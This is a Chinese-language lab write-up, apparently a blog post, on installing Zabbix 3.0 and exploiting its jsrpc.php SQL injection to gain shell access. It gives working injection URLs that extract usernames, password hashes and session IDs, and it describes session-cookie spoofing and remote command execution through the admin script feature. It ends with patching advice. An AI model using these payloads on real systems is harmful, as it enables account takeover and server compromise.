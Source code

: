 

# 记一次 zabbix 安装及漏洞利用 getshell 全过程 - 先知社区

记一次 zabbix 安装及漏洞利用 getshell 全过程

- - -

## 1 前言

Zabbix 是由 Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。可用于监视各种网络服务、服务器和网络机器等状态。本着其开源、安装简单等特点被广泛使用。

但 zabbix 2.2.x, 3.0.0-3.0.3 版本存在 SQL 注入漏洞，攻击者无需授权登陆即可登陆 zabbix 管理系统，进入后台后 script 等功能直接获取 zabbix 服务器的操作系统权限。最近复现了这个漏洞，彻底搞懂了如何利用 zabbix 漏洞进入后台直到 getshell。这里就来记录下，小白篇，大牛请绕过。

## 2 安装

**环境：centos6.5**

PHP >= 5.4 (CentOS6 默认为 5.3.3，需更新)  
curl >= 7.20 (如需支持 SMTP 认证，需更新)

**安装版本 zabbix3.0**

关闭 selinux

```bash
修改/etc/sysconfig/selinux
将 SELINUX=enforcing，改为 SELINUX=disabled 然后重启
查看状态：getenforce
```

安装

```bash
rpm -ivh http://dev.mysql.com/get/mysql-community-release-el6-5.noarch.rpm
yum install mysql-server -y  #此过程会因为网路问题偏慢，请耐心等待
```

配置

```bash
vim /etc/my.cnf  
[mysqld]
innodb_file_per_table
```

启动

```bash
service mysqld start
```

设置 root 密码

```bash
mysql_secure_installation 


Enter current password for root (enter for none):
Set root password? [Y/n]
Remove anonymous users? [Y/n]
Disallow root login remotely? [Y/n]
Remove test database and access to it? [Y/n]
Reload privilege tables now? [Y/n]
```

创建 zabbix 数据库

```bash
mysql -uroot -p
mysql> CREATE DATABASE zabbix CHARACTER SET utf8 COLLATE utf8_bin;
mysql> GRANT ALL PRIVILEGES ON zabbix.* TO zabbix@localhost IDENTIFIED BY 'zabbix';
mysql> show databases;   
+--------------------+     
| Database           |     
+--------------------+     
| information_schema |     
| mysql              |     
| zabbix             |     
+--------------------+
```

迁出 RPM 安装包

```bash
git clone https://github.com/zabbixcn/zabbix3.0-rpm.git
cd  zabbix3.0-rpm/RPMS
yum install zabbix-web-mysql-3.0.0-1.el6.noarch.rpm zabbix-web-3.0.0-1.el6.noarch.rpm
```

安装软件源

```bash
rpm -ivh http://repo.webtatic.com/yum/el6/latest.rpm
```

安装 PHP 5.6

```bash
yum install httpd php56w php56w-mysql php56w-gd php56w-imap php56w-ldap php56w-odbc php56w-pear php56w-xml php56w-xmlrpc php56w-mcrypt php56w-mbstring php56w-devel php56w-pecl-memcached  php56w-common php56w-pdo php56w-cli php56w-pecl-memcache php56w-bcmath php56w-fpm
```

安装 curl

```bash
git clone https://github.com/zabbixcn/curl-rpm
cd curl-rpm/RPMS 
yum install curl-7.29.0-25.el6.x86_64.rpm  libcurl-7.29.0-25.el6.x86_64.rpm  libcurl-devel-7.29.0-25.el6.x86_64.rpm
```

安装 Zabbix-Server

```bash
yum -y install http://repo.zabbix.com/zabbix/3.0/rhel/7/x86_64/zabbix-release-3.0-1.el7.noarch.rpm
```

配置数据库连接信息

```bash
vi /etc/zabbix/zabbix_server.conf
DBHost=localhost
DBName=zabbix
DBUser=zabbix
DBPassword=zabbix
```

启动 Zabbix-Server

```bash
/etc/init.d/zabbix-server start
```

启动 Apache

```bash
/etc/init.d/httpd start
```

安装 zabbix-agent 源码

```bash
rpm -ivh http://repo.zabbix.com/zabbix/2.4/rhel/6/x86_64/zabbix-release-2.4-1.el6.noarch.rpm
```

安装 zabbix 客户端

```bash
yum install zabbix-agent -y
```

启动服务

```bash
service zabbix-agent start
chkconfig zabbix-agent on
```

最后浏览器访问[http://IP/zabbix进行配置即可。](http://ip/zabbix%E8%BF%9B%E8%A1%8C%E9%85%8D%E7%BD%AE%E5%8D%B3%E5%8F%AF%E3%80%82)

## 3 漏洞利用

**测试环境：**

攻击机 win7 ip:192.168.10.138

靶机 centos6.5 ip:192.168.10.131

攻击机已知靶机 ip，且靶机系统未关闭默认开启 guest 账户登陆。

在攻击机访问的 zabbix 的地址后面加上如下 url：

```bash
/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim
estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi
story.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfil
e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=
17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&
mark_color=1
```

[![](assets/1698897433-79811a96f8559db27b782dc912fe964a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181122-986155fe-1290-1.png)

输出结果，若包含：You have an error in your SQL syntax;表示漏洞存在。

**实操：**

zabbix 默认账户 Admin 密码 zabbix，可以先尝试一波弱口令可能有意外收获。如果不行可以利用 jsrpc 的 profileIdx2 参数 sql 注入，具体操作如下：

-   获取用户名

```bash
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,name,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[![](assets/1698897433-87e19ada71015f8f3f189ec4be168a68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181123-98a231c8-1290-1.png)

-   获取密码

```bash
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,passwd,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[![](assets/1698897433-97491557c35ce9ec68a97e42aaaa2087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181123-98e2263e-1290-1.png)

-   获取 sessionid

```bash
http://192.168.10.131/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,sessionid,0x7e)%20as%20char),0x7e))%20from%20zabbix.sessions%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[![](assets/1698897433-2d18a4f0b653a74d20689094cea5d38e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181124-991762e0-1290-1.png)

用户名密码及 sessionid 值都已得到，可以先对密码 md5 解密，解密成功可直接进入后台。解密不成功可以用 sessionid 值进行 Cookie 欺骗替换 zbx\_sessionid 即可成功以 administrator 登陆。这里利用 Cookie 欺骗进行测试，经过御剑扫描发现 setup.php 页面，但是没有权限登陆。

[![](assets/1698897433-b1b136d0e4d3d6acf2df06df6ee58dab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181124-9941b6b2-1290-1.png)

我们把这个页面的 zbx\_sessionid 替换成注入出来的 sessionid 值，刷新后即可看到安装页面。

[![](assets/1698897433-604e8f14814a89c8c78105e2a9280460.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181124-997e4e60-1290-1.png)

此时再次访问[http://192.168.10.131/zabbix/，即可成功进入后台。](http://192.168.10.131/zabbix/%EF%BC%8C%E5%8D%B3%E5%8F%AF%E6%88%90%E5%8A%9F%E8%BF%9B%E5%85%A5%E5%90%8E%E5%8F%B0%E3%80%82)

[![](assets/1698897433-48b6b5b78f9362b25f170a94afe2bb06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181125-99afc6de-1290-1.png)

接下来我们尝试利用后台 script 功能获取其操作系统权限。

首先在 Administration 页面的 scrpit 功能栏创建 script 如下：

[![](assets/1698897433-4416da79eaa1296929342c07255ee5ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181125-99ce7aac-1290-1.png)

然后重点在于找触发点，找到触发点才能执行。方法很多，这里拿常用的举例。

[![](assets/1698897433-7348aab1a10bd42ef0cac635780ad125.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181125-99fc9798-1290-1.png)

执行成功后即可 getshell。

[![](assets/1698897433-f39356b97f78e7cbc465e773e20c04fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181125-9a309278-1290-1.png)

ps：如果执行脚本报错 Remote commands are not enabled 需要在靶机的配置文件 zabbix\_agentd.conf 中添加下面语句，开启对远程命令的支持，添加完成后重启下服务即可。

```bash
EnableRemoteCommands = 1
```

## 4 修复建议

1.更新到最新版本

2.禁用 guest 登陆功能

3.禁用远程命令

